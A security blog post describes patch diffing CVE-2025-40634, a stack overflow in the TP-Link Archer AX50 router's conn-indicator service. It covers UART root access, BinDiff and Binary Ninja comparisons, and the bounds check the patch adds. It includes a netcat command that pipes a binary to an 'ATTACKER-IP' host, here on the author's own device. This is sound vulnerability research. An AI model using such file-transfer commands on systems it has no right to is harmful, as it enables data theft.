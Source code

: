 ```yaml
---
layout: post
title: Patch Diffing CVE-2025-40634 With BinDiff and Binary Ninja 
subtitle: Diffing a known fix in the TP-Link Archer AX50 Router
tags: hax cve patch binaryninja bindiff 
date: 2025-08-23
background: https://lh3.googleusercontent.com/d/1r3TceEVmIcL918IuDKL1MaNrZRL0jntH
---
```


# My Adopted Router
A long time hobby of mine is going to thrift shops to buy old routers, security cams, and other misc IoT devices. They're often at a great discount, so I don't feel guilty if I totally botch the devices through experiments. They make great "target practice" from a vulnerability research perspective. 

It was my lucky day when I found a [TP-Link Archer AX50](https://www.tp-link.com/us/home-networking/wifi-router/archer-ax50/) at my local thrift shop (score!!). Of course I purchased it right away and ran out the door to get straight to work. A quick shakedown of the router revealed that it is running firmware version [1.0.14](https://www.tp-link.com/us/support/download/archer-ax50/v1/#Firmware), which is vulnerable to [CVE-2025-40634](https://nvd.nist.gov/vuln/detail/cve-2025-40634), a stack overflow vulnerability in the `conn-indicator` service running on the router. 

[hacefresko](https://github.com/hacefresko/CVE-2025-40634/tree/main) created an excellent working exploit against this exact model and firmware version of the router, which worked right out of the box! Greetz to hacefresko for the working exploit and [Flashback Team](https://www.flashback.sh/) for finding the original vulnerability as part of their Pwn2Own Tokyo 2019 victory. They released an excellent [tutorial](https://www.youtube.com/watch?v=xWoQ-E8n4B0) covering the finding of the vulnerability, and the development of the original exploit. Many of the topics covered in the post are in their video. 

Since there's no point beating that dead horse in this post, we'll briefly go over my router hacking modus operandi, then cover something different and somewhat interesting by bindiffing the vulnerable version vs the patched version of the MIPS `conn-indicator` library with Binary Ninja and BinDiff. 

# Router Shakedown
First things first when acquiring a new target is to boot it up and see what it can do! Sure enough it booted up, and broadcasted an access point with the default password listed under the label. From here there wasn't much use, as a quick port scan against 192.168.0.1 didn't have anything out of the ordinary for a router (usual DNS, UPnP, HTTP, HTTPS, locked-down SSH), and the web interface on port 80 was locked down with a non-standard admin password (default should have been admin:admin for TP-Link). 

Next up is to get down and dirty and interface with the UART ports. UART stands for Universal Asynchronous Receiver/Transmitter. These are usually 4 pins (Tx, Rx, Gnd, Vcc) on the board of the device used to flash firmware and interface with the device at the factory. Typically manufacturers don't care for us to mess with UART, so the pins will come without headers, and in some cases the Rx pin can be detached from the circuitry with a missing resistor. 

If we can connect to UART with a UART to USB converter cable, we can get a root shell on the device and cause all kinds of trouble! Refer to Flashback Team's [tutorial](https://www.youtube.com/watch?v=xWoQ-E8n4B0) for the details on accessing UART. The pinout for the TP-Link Archer AX50 is identical to their target, the only difference is that the Rx pin does not need to be jumped with a paperclip. 

# conn-indicator Binary
The purpose of UART for this project is to get our hands on a live (vulnerable) version of the `conn-indicator` binary. Sure, you can download the firmware from [TP-Link's](https://www.tp-link.com/us/home-networking/wifi-router/archer-ax50/) site, then extract it with [binwalk](https://github.com/ReFirmLabs/binwalk) and spelunk through the filesystem for goodies. But that would be too easy, and not guarantee that we have an actual vulnerable version. 

Assuming headers have been soldered on, and have a compatible UART to USB converter ([DSD Tech SH-U09C5](https://www.amazon.com/DSD-TECH-SH-U09C5-Converter-Support/dp/B07WX2DSVB) is what I use and works with Debian 13 for my Linux attacker machine), match up the headers with jumpers to the UART adapter, plug in, and run the following from a linux machine: 

```
sudo screen /dev/ttyUSB0 115200
```
where `/dev/ttyUSB0` is the serial device for the UART adapter, and 115200 is the baud rate. Plug in the router and turn on the power button, there should be a wall of text as part of the boot sequence (mostly `dmesg` stuff). This will drop us into a root privileged busybox shell. 

`ps | grep conn` will tell us that `conn-indicator` is located at `/usr/sbin/conn-indicator`, we just want that file. File transfer over UART isn't always a thing, luckily for us netcat is available through busybox on the router. We'll transfer the binary over that. 

On the attacking machine: 
`nc -lvvp 9001 > /tmp/conn-indicator`

On the router:
`cat /usr/sbin/conn-indicator | nc ATTACKER-IP 9001`
This pipes the contents of the binary into netcat, which pukes everything over TCP to our attacking machine at `/tmp/conn-indicator`; EZ-PZ. 

# Patching The Binary
There's a few ways to approach this one. The easiest option is to get it from [TP-Link's](https://www.tp-link.com/us/home-networking/wifi-router/archer-ax50/) latest firmware and use binwalk to extract the contents. `/usr/sbin/conn-indicator` should exist somewhere in the extracted contents. Since I planned on updating the router anyways, I went and downloaded the firmware, flashed it to the device through the web admin interface, then repeated the previous steps over UART for fun. 

Doing this will give us two version of `conn-indicator`, a version from `1.0.14` and `1.0.16`. 

# Patch Diffing 

Since this router runs on MIPS architecture, all of the binaries we've extracted will be MIPS binaries. Not all free reverse-engineering frameworks will play nicely with MIPS without paying money. [Ghidra](https://github.com/NationalSecurityAgency/ghidra) should work for this as a free option, but this was not tested. [Binary Ninja](https://binary.ninja/) on Windows was used here, because Binary Ninja is cool and I like hacking from Windows. 

With Binary Ninja, we will need the experimental [BinExport](https://docs.binary.ninja/guide/binexport.html) plugin enabled. This allows us to export files that [BinDiff](https://github.com/google/bindiff) consumes. BinDiff is where all the magic happens! 

Before importing/exporting things and making a huge mess of files. MAKE SURE files are labeled nice and neat. In big projects this can get messy fast if version numbers aren't labeled and file names get mixed around. `conn-indicator_1.0.14` for the vulnerable file and `conn-indicator_1.0.16` for the patched file works good enough for now. 

Open up BinaryNinja, go to File -> Open, the pick `conn-indicator_1.0.14`. Go to Plugins -> BinExport, then save it as something distinct and memorable. That's it! 

![](/img/pwn/binja_binexport.png)

Do the same for `conn-indicator_1.0.16`, rinse and repeat. This will end with two `.binexport` files that we'll ship over to BinDiff. 

BinDiff we'll create a new workspace, then add a new diff to that workspace. Select binexport `1.0.14` as the primary and `1.0.16` as the secondary. 

![](/img/pwn/bindiff_import.png)

# The Comparison
In hacefresko's [writeup](https://github.com/hacefresko/CVE-2025-40634), they mention the vulnerable function `DNS_parse_answer()` being located at `0x004054e0`. In BinDiff's view we can very quickly see `sub_4054e0` having the least similarity score and confidence. In patch diffing we typically want to see this to indicate what was most likely changed as part of the patch. Luckily we know the details of the vulnerability in this case, but for most cases we'll be going in blind and doing a lot of guesswork here.  

![](/img/pwn/4054e0.png)

I find that the UI for BinDiff is challenging for hard reverse engineering, so in this case I would go right back to Binary Ninja and dig into the assembly (and decompiled) results there. In the secondary we can see `sub_4038c0` as the function for the patched version, we can search `4038c0` in Binary Ninja to dig into it there. 

![](/img/pwn/0438c0.png)

A bunch of code was refactored in `1.0.16`, but eventually a bounds check is performed before a vulnerable `memcpy` call, and throws an error if it fails. 

# Conclusion
No cool 0-days were discovered or exploits were ported over with this thrift shop haul. In the end it served as great target practice to exercise rusty pentesting skills, and mess around a little with MIPS binaries in Binary Ninja and Bindiff. Thanks again to Flashback Team and hacefresko for their great writeups against this family of TP-Link routers.  